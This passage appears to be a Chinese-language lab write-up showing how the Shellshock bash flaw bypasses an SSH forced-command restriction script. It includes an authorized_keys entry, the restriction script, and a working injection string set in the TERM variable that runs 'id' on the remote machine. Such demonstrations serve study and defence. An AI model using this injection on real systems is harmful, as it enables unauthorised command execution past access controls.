 |    . * o E      |
| o o . +        |
|. = o o          |
|oo . .          |
+-----------------+


把A的公钥拷贝到机器B上：
$cat /home/shawn/.ssh/authorized_keys
command="/tmp/ssh.sh" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9xYHEdjbbvSO+RAtDS3u+R4sD87SUQq5OZJ+6P5n3BoOz8eKfmK2B4qQa28uGvpseFSSXIoXTKdeS3mCXevbibGG6E3RQ63U7USrh9iQupO6c45Qt+3/WOo7X3mRlZ1awUmCjurcA5Zm/yOvyMJCoRd1kpkiJljgHtMztEhWvAE4inFkqyWC81SSfsvNd/GEiyCpFw84UTdF/cH626V3V73hlxwBMd8UKI27I7ATMOcPgWsI5738tLpgPDSisvZZXZNlxAfvSgpxKYAHOQ9VsaJCG4q+Giob5iX4IDzn8gs8G7uGW+EGhzTMq83f/8ar5a5Ex8Dg9M/loYPIPp5gJ shawn@debian-test32


一个用于控制command/SSH_ORIGINAL_COMMAND的脚本
shawn@linux-ionf:~/.ssh> cat /tmp/ssh.sh
#!/bin/sh

case "$SSH_ORIGINAL_COMMAND" in
 "ps")
  ps -ef
  ;;
 "vmstat")
  vmstat 1 100
  ;;
 "cups stop")
  /etc/init.d/cupsys stop
  ;;
 "cups start")
  /etc/init.d/cupsys start
  ;;
 *)
  echo "Sorry. Only these commands are available to you:"
  echo "ps, vmstat, cupsys stop, cupsys start"
  #exit 1
  ;;
esac


机器A上可以正常的使用限制脚本:
shawn@debian-test32:~/.ssh$ export SSH_ORIGINAL_COMMAND="ps"
shawn@debian-test32:~/.ssh$ ssh  shawn@192.168.115.129 $SSH_ORIGINAL_COMMAND
Enter passphrase for key '/home/shawn/.ssh/id_rsa':
UID        PID  PPID  C STIME TTY          TIME CMD
root        1    0  0 16:47 ?        00:00:02 /sbin/init showopts
root        2    0  0 16:47 ?        00:00:00 [kthreadd]
root        3    2  0 16:47 ?        00:00:00 [ksoftirqd/0]


借助TERM来利用：
shawn@debian-test32:~$ export TERM='() { :;}; id'; ssh  shawn@192.168.115.129
Enter passphrase for key '/home/shawn/.ssh/id_rsa':
uid=1000(shawn) gid=100(users) groups=100(users)
Connection to 192.168.115.129 closed.
